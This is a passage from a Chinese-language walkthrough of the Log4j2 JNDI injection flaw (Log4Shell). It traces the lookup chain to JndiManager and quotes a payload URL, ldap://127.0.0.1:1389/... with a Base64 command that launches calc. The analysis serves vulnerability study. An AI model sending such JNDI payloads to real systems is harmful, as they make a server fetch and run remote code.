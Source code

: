 因为我们这里输入的是一个jndi:xxxx，所以这里的Strlookup自然而然也是一个JndiLookup处理器

这里边调用了JndiManager的lookup方法，这个jndiManager其实就是log4j2对JNDI的一层封装而已，

![image-20241203110203338](./main.assets/log4j2-12.png)

这里的Context其实就是JNDI中的上下文对象。可以发现这里就是最终的触发点了，请求了

> ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=

![image-20241203110418741](./main.assets/log4j2-13.png)
